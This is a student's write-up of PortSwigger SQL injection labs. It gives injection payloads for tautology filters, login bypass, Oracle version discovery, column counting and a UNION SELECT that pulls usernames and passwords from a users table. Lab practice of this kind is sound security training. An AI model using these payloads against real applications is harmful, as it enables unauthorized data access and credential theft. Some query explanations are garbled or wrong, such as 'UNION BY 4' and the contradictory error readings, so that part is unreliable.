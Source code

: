 ## Lab 1: `Retrieving hidden data`, where you can modify a SQL query to return additional results.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

## Lab 2: SQL injection vulnerability allowing `login bypass`
- Original Query: `SELECT firstname FROM users WHERE username='admin' AND password='admin'`
- Modified: `SELECT firstname FROM users WHERE username='admin'--' AND password='admin'`
- Query to executed by DB after injections: `SELECT firstname FROM users;`

### Injections:
- `'admin'--'` - Commenting out the remaining portion of the original query.

## Lab 3: SQL injection attack, querying the database type and version on Oracle `Union Query`
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- There is a `built-in table on Oracle called 'dual'` For example: `UNION SELECT 'abc' FROM dual`

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT 'abc','def' FROM dual--`
- Query to executed by DB after injections: `SELECT * FROM products WHERE category = 'Gifts'' UNION SELECT 'abc','def' FROM dual--`
- To get the Oracle Version: `SELECT * FROM products WHERE category = 'Gifts'union+SELECT+banner,NULL+FROM+v$version--`

### Injections:
- `'union+SELECT+banner,NULL+FROM+v$version--` - Concate the second query with Union clause in Original Query.

## Lab 4: SQL injection UNION attack, determining the number of columns returned by the query
1. ' ORDER BY 1-- injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`

2. Submitting a series of `UNION SELECT` payloads specifying a different number of null values, will help in determining the columns unless we get the error.

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL,NULL--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`


## Lab 5: SQL injection UNION attack, finding a column containing text
- First, Determine the number of columns returned by the query.
- Second, Determine a column that is compatible with string data. 

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--` (Server Error, means number of columns = 3)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+'a',NULL,NULL--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,NULL,'a'--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,'a',NULL--` ('a' determine that the 2nd column accepting text value)

## Lab 6: SQL injection UNION attack, retrieving data from other tables [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'UNION+SELECT+username,password+FROM+users--` This should return all the users available in USERS table. (Since, table and columns name were given in Lab description. We can take it from there)
- Login > Enter the Administrator Cred > Done
- ![image](https://github.com/user-attachments/assets/003e7533-e7c9-401d-824d-fe7c7a34fe98)


## Lab 7: [Link]()



